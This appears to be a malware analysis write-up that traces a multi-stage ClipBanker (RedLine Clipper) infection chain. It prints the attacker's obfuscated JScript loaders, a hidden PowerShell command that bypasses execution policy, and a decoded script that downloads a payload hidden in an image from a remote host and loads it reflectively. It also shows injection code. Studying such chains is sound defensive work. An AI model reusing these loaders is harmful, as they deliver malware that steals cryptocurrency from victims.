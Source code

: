 ## Multi Stage ClipBanker Analysis

RedLine Clipper (aka ClipBanker) is specifically designed to steal cryptocurrencies by replacing the user’s system clipboard activities with the wallet address under the control of attackers. 

## Initial JavaScript

``` powershell
function TwtgaWCivnsxiQCbwJSLTCoEJMdptJClJHpZjAWDdZiSqltCvhdULoxXBHwyHFsZGOAumfobRmSZYGcnTOqlQIORHhyqfcitfVIVoRXnknNbOnVerxNCyeaBAnMEDuvyWPYATkqBNDZeMFnDOCskmTaUSfpbVTXPKKBNtUyFSBdQbdByWNvZaxWgdUegnKYPirtLGYpA(str) {
    return str.split('').reverse().join('');
}

var oPFGPIuwcHruJTqFXjackEDlcnSzkthlCzIxXlRxaOutOoYGbxOJUKfcrtBMDtjLncxhrEnaotOSkdlvRkrSPphrTeSAxkMlnajBFllHaaMPVqXpMfUyXfABgdmnGxUicFvvXnegWxKqCEcNpydCZTlzoPAHStszEyriqeEaCkwZHyLRCPbAclBysrLOoipeWFgBnPbj = "56wui/d/ee.etsap//:sptth";
var cumuxNDEeacpyaraANJjLJnjKWjsdTrCJBWmgiGbHiuUIbVrZIQDORghDNrMPsyUzaOqvclFsaAspOPMMsRRVxjwjEHSFNjjlaJyfnBefRcZGdPVEHzEDwYZHiYlWgtzZIrqwJncSyvGXRdtQmwOgNmnXYtFaUYsLwaEJLZVsBorPpnRuJbiAmWofsqthdWXRodWaxKM = TwtgaWCivnsxiQCbwJSLTCoEJMdptJClJHpZjAWDdZiSqltCvhdULoxXBHwyHFsZGOAumfobRmSZYGcnTOqlQIORHhyqfcitfVIVoRXnknNbOnVerxNCyeaBAnMEDuvyWPYATkqBNDZeMFnDOCskmTaUSfpbVTXPKKBNtUyFSBdQbdByWNvZaxWgdUegnKYPirtLGYpA(oPFGPIuwcHruJTqFXjackEDlcnSzkthlCzIxXlRxaOutOoYGbxOJUKfcrtBMDtjLncxhrEnaotOSkdlvRkrSPphrTeSAxkMlnajBFllHaaMPVqXpMfUyXfABgdmnGxUicFvvXnegWxKqCEcNpydCZTlzoPAHStszEyriqeEaCkwZHyLRCPbAclBysrLOoipeWFgBnPbj);

var BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL = new ActiveXObject("MSXML2.ServerXMLHTTP");
BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.open("GET", cumuxNDEeacpyaraANJjLJnjKWjsdTrCJBWmgiGbHiuUIbVrZIQDORghDNrMPsyUzaOqvclFsaAspOPMMsRRVxjwjEHSFNjjlaJyfnBefRcZGdPVEHzEDwYZHiYlWgtzZIrqwJncSyvGXRdtQmwOgNmnXYtFaUYsLwaEJLZVsBorPpnRuJbiAmWofsqthdWXRodWaxKM, false);
BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.send();

var zFRcqeVmscmYglMSIKZAFqrssqIFeUgbGdouShnFfqpDAimEMJkAyPxIcPDUpQQAMmYIVtUFfORiLjLCeEUXtOPBVuPvoWYsuhhZOrGMMOgfinDwtmaWyqxlWykOsjqbWlPcJphRbNOKfyAANzexSiOpBsamnhxbXEknDRwbAgKIcMSduPSyCmavuzOxxPFKJyiqQhxu = BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.responseText;

(function() {
    eval(zFRcqeVmscmYglMSIKZAFqrssqIFeUgbGdouShnFfqpDAimEMJkAyPxIcPDUpQQAMmYIVtUFfORiLjLCeEUXtOPBVuPvoWYsuhhZOrGMMOgfinDwtmaWyqxlWykOsjqbWlPcJphRbNOKfyAANzexSiOpBsamnhxbXEknDRwbAgKIcMSduPSyCmavuzOxxPFKJyiqQhxu);
})();
```

Besides the very long annoying variable names, this initial script is quite simple, it takes the string "56wui/d/ee.etsap//:sptth", reverses it, and executes the contents of that URL.

Now we know where the second stage is hosted, we'll head over and download the contents to investigate further.

## 2nd Stage - Further JavaScript

``` powershell
    var gQBnV = false;

    function PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(LpxIb) {
        return LpxIb.split('').reverse().join('');
    }
   
    var olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("♚♛kC♚♛p♚♛wJ♚♛UG♚♛tBQY♚♛4E♚♛rBgb♚♛wE♚♛n♚♛♚♛I♚♛wC♚♛n♚♛♚♛X♚♛EG♚♛0BQY♚♛QE♚♛tBQY♚♛IH♚♛nBwb♚♛IH♚♛QB♚♛X♚♛oD♚♛DBwJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛x♚♛wJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛lBQb♚♛EG♚♛OBwc♚♛IG♚♛WBwJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛y♚♛wJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛n♚♛♚♛I♚♛wC♚♛g♚♛wJ♚♛gG♚♛0B♚♛d♚♛♚♛H♚♛zBgO♚♛8C♚♛v♚♛♚♛c♚♛EG♚♛zB♚♛d♚♛UG♚♛u♚♛QZ♚♛UG♚♛v♚♛♚♛Z♚♛8C♚♛VBQN♚♛cD♚♛LBQa♚♛8C♚♛w♚♛wJ♚♛gC♚♛g♚♛QX♚♛0F♚♛bB♚♛d♚♛MG♚♛lBga♚♛IG♚♛vBwW♚♛♚♛C♚♛s♚♛♚♛b♚♛wG♚♛1Bgb♚♛QC♚♛o♚♛QZ♚♛sG♚♛vBgd♚♛4G♚♛JBgL♚♛kC♚♛n♚♛gb♚♛UH♚♛SBwJ♚♛gC♚♛kBwb♚♛gG♚♛0BQZ♚♛0E♚♛0BQZ♚♛cE♚♛u♚♛QZ♚♛♚♛H♚♛5B♚♛d♚♛QC♚♛g♚♛QP♚♛♚♛C♚♛kBwb♚♛gG♚♛0BQZ♚♛0G♚♛k♚♛wO♚♛kC♚♛n♚♛QM♚♛MH♚♛zBQY♚♛wG♚♛DBgL♚♛MD♚♛5Bgc♚♛EG♚♛yBgY♚♛kG♚♛MBwc♚♛MH♚♛hB♚♛b♚♛ME♚♛n♚♛♚♛K♚♛UG♚♛wBQe♚♛QF♚♛0BQZ♚♛cE♚♛u♚♛Qe♚♛wG♚♛iBQb♚♛UG♚♛zBwc♚♛EE♚♛kBQZ♚♛QG♚♛hBwb♚♛wG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛QZ♚♛♚♛H♚♛5B♚♛d♚♛QC♚♛7♚♛QK♚♛MH♚♛lB♚♛d♚♛kH♚♛CB♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwY♚♛QC♚♛o♚♛♚♛Z♚♛EG♚♛vB♚♛T♚♛oD♚♛6♚♛QX♚♛kH♚♛sBgY♚♛0G♚♛lBwc♚♛MH♚♛BBgL♚♛4G♚♛vBQa♚♛QH♚♛jBQZ♚♛wG♚♛mBQZ♚♛IF♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛kH♚♛sBgY♚♛0G♚♛lBwc♚♛MH♚♛BB♚♛Z♚♛UG♚♛kBQY♚♛8G♚♛sB♚♛J♚♛sD♚♛p♚♛♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwQ♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛o♚♛wZ♚♛4G♚♛pBgc♚♛QH♚♛TB♚♛N♚♛YD♚♛lBwc♚♛EG♚♛CBQb♚♛8G♚♛yBgR♚♛oD♚♛6♚♛QX♚♛QH♚♛yBQZ♚♛YH♚♛uBwb♚♛ME♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛MH♚♛lB♚♛d♚♛kH♚♛CB♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwY♚♛QC♚♛7♚♛QK♚♛gG♚♛0BwZ♚♛4G♚♛lB♚♛T♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛g♚♛♚♛L♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛K♚♛cG♚♛uBQa♚♛IH♚♛0Bwc♚♛IG♚♛1BwU♚♛4C♚♛0B♚♛e♚♛UG♚♛UBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwQ♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛7♚♛♚♛e♚♛UG♚♛kBgb♚♛kE♚♛0Bgc♚♛EG♚♛0Bwc♚♛QC♚♛g♚♛QL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QG♚♛uBQZ♚♛QC♚♛g♚♛QP♚♛♚♛C♚♛oB♚♛d♚♛cG♚♛uBQZ♚♛wE♚♛0♚♛gN♚♛UG♚♛zBQY♚♛IG♚♛k♚♛wO♚♛gG♚♛0BwZ♚♛4G♚♛lB♚♛T♚♛4C♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛I♚♛0D♚♛r♚♛♚♛I♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛I♚♛QH♚♛nBQL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QG♚♛uBQZ♚♛QC♚♛g♚♛♚♛Z♚♛4G♚♛hBQL♚♛♚♛C♚♛w♚♛♚♛I♚♛UG♚♛nBQL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QH♚♛yBQY♚♛QH♚♛zB♚♛J♚♛sD♚♛p♚♛wZ♚♛EG♚♛sBgR♚♛QG♚♛uBQZ♚♛QC♚♛o♚♛gZ♚♛8E♚♛4BQZ♚♛QG♚♛uBQS♚♛4C♚♛0B♚♛e♚♛UG♚♛UBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛♚♛e♚♛UG♚♛kBgb♚♛kE♚♛kBgb♚♛UG♚♛k♚♛wO♚♛kC♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛K♚♛YG♚♛PB♚♛e♚♛UG♚♛kBgb♚♛kE♚♛u♚♛♚♛d♚♛gH♚♛lB♚♛V♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛♚♛C♚♛9♚♛♚♛I♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛cC♚♛+♚♛gP♚♛QE♚♛OBQR♚♛8F♚♛0♚♛gN♚♛UE♚♛TBQQ♚♛IE♚♛8♚♛♚♛P♚♛cC♚♛g♚♛QP♚♛♚♛C♚♛nBQY♚♛wG♚♛GB♚♛Z♚♛4G♚♛lB♚♛J♚♛sD♚♛n♚♛gP♚♛4D♚♛UBgU♚♛EE♚♛UBwU♚♛8F♚♛0♚♛gN♚♛UE♚♛TBQQ♚♛IE♚♛8♚♛♚♛P♚♛cC♚♛g♚♛QP♚♛♚♛C♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛kC♚♛zBQZ♚♛QH♚♛5BgQ♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛gC♚♛nBgb♚♛kG♚♛yB♚♛d♚♛MF♚♛0BQZ♚♛cE♚♛u♚♛♚♛O♚♛YE♚♛UBQV♚♛oD♚♛6♚♛QX♚♛cG♚♛uBQa♚♛QG♚♛vBwY♚♛4G♚♛FBgL♚♛QH♚♛4BQZ♚♛QF♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛QH♚♛4BQZ♚♛QF♚♛lBwZ♚♛EG♚♛tBQa♚♛QC♚♛7♚♛QK♚♛wG♚♛yBQV♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛gC♚♛hB♚♛d♚♛EG♚♛EB♚♛Z♚♛EG♚♛vB♚♛b♚♛4G♚♛3Bwb♚♛QE♚♛u♚♛♚♛d♚♛4G♚♛lBQa♚♛wG♚♛DBgY♚♛UG♚♛3B♚♛J♚♛♚♛C♚♛9♚♛♚♛I♚♛MH♚♛lB♚♛d♚♛kH♚♛CBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛wO♚♛QH♚♛uBQZ♚♛kG♚♛sBwQ♚♛IG♚♛lBwV♚♛4C♚♛0BQZ♚♛4E♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TB♚♛I♚♛QH♚♛jBQZ♚♛oG♚♛iBwT♚♛0C♚♛3BQZ♚♛4E♚♛g♚♛QP♚♛♚♛C♚♛0Bgb♚♛UG♚♛pB♚♛b♚♛ME♚♛iBQZ♚♛cH♚♛k♚♛wO♚♛cC♚♛5♚♛♚♛M♚♛YD♚♛x♚♛QO♚♛UD♚♛y♚♛♚♛M♚♛cD♚♛x♚♛wP♚♛cG♚♛wBga♚♛4C♚♛zBga♚♛8C♚♛sBQY♚♛4G♚♛pBwZ♚♛kG♚♛yBwb♚♛8C♚♛3♚♛QN♚♛ID♚♛v♚♛QM♚♛kD♚♛2♚♛wL♚♛QD♚♛w♚♛♚♛M♚♛8C♚♛zBQZ♚♛cG♚♛hBQb♚♛kG♚♛v♚♛gc♚♛IG♚♛u♚♛Qb♚♛8G♚♛jBgL♚♛MH♚♛uBQZ♚♛cG♚♛hBQb♚♛kG♚♛lB♚♛Z♚♛QG♚♛hBwb♚♛wG♚♛wBQd♚♛8C♚♛v♚♛gO♚♛MH♚♛wB♚♛d♚♛QH♚♛oBwJ♚♛♚♛C♚♛9♚♛♚♛I♚♛wG♚♛yBQV♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J");
    var hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("' = ogidoC$") + 
    olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY + "';" +
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("S[ = dxujWO$") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("eT.metsy") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("nU::]gnidocnE.tx") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("eG.edoci") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("C.metsyS[(gnirtSt") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("6esaBmorF::]trevno") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("lper.ogidoc$(gnirtS4") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(";)) )'A','♚♛'(eca") +
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("niw- exe.llehsrewop") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("exe- neddih elytswod") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("N- ssapyb ycilopnoituc") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("moc- eliforPo") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("dxujWO$ dnam");
    var eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj = "\x57\x53\x63\x72\x69\x70\x74\x2E\x53\x68\x65\x6C\x6C"
    var ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF = new ActiveXObject(eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj);
    ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF.Run("\x70\x6F\x77\x65\x72\x73\x68\x65\x6C\x6C\x20\x2D\x63\x6F\x6D\x6D\x61\x6E\x64 \"" + hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq + "\"", 0, false);
```

Again, annoyingly long variable names, we can rename these just to make it a little less of an eye sore.

We can then work out parts of the script, simply by reversing the strings for the PowerShell part, and doing a From Hex operation on the later parts.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9838b0c5-600c-4c17-bab6-ef82d75c67a9)

The Base64 element can be analysed by utilising the following Operators in CyberChef:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/de584242-bd66-4c9e-b305-39a9e120e00b)

Which reveals the following:

``` powershell
$imageUrl = 'hxxps[://]uploaddeimagens.com[.]br/images/004/691/257/original/js.jpg?1702591609';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag =
'<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes =
[System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('ClassLibrary3.Class1');$method = $type.GetMethod('Run').Invoke($null, [object[]] ('0/iK75U/d/ee.etsap//:sptth' , '' , '2' , 'VbsName' , '1' , 'C:\ProgramData\',
'LnkName'))
```
## 3rd Stage - Some Executables

There are 2 interesting URLs within this command block:

[-] hxxps[://]uploaddeimagens.com[.]br/images/004/691/257/original/js.jpg?1702591609

[-] hxxps[://]paste[.]ee/d/U57Ki/0

For the first URL, it reads the bytes between 2 flags present in the strings of an image file and executes them. The 2nd URL is passed as an argument - which will make more sense later.

We can extract the contents of the first by downloading the image, running a strings command, and extracting the code between the <<BASE64_START>> and <<BASE64_END>> flags.

_curl https://uploaddeimagens.com.br/images/004/691/257/original/js.jpg?1702591609 -o test.txt | strings test.txt_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/87dd46b6-366f-44d2-8768-9c26fae6b070)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7ae91d50-d7f6-42f1-8b17-eaf7dee97fdf)

When decoding this from Base64 we are given an executable file.

The second URL contains a reversed Base64 string which contains another executable.

**1st Executable SHA 256**: e7e22e5e0f47fe2c2aa71f293e609c4fac901823dce6c6ae39400d1c2f02df54

**2nd Executable SHA 256**: 8c21274f725299022fbf415925210da65702198913c4713dfe5dda09ceb2d38a

The first executable appears to be a generic loader / malware deployment framework.

Within the first line after the entry point, we can see the variable 'LAbWJK' which is the name given to the 2nd executable, as it was given as an argument in the previous PowerShell command.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/74401b9a-3d72-4a46-8ecc-ccf43619ed47)

Moving down, there are references to generic persistence mechanisms, which in this case, have not been enabled. 

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/071802e4-6b24-48e3-ad53-319043036be8)

Next, we can see more Base64 content being extracted from an image, reversed, and executed.
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fe9c374a-5c80-4d55-870e-77a7635ef61f)

After reversing the string, downloading the image, reversing the base64 and decoding to an executable, we are presented with a binary whose sole purpose is to inject code.

**References to Injection:**
``` powershell
private static readonly Class1.Delegate9 delegate9_0 = Class1.smethod_0<Class1.Delegate9>("kern!".Replace("!", "el32"), "Create&".Replace("&", "ProcessA"));
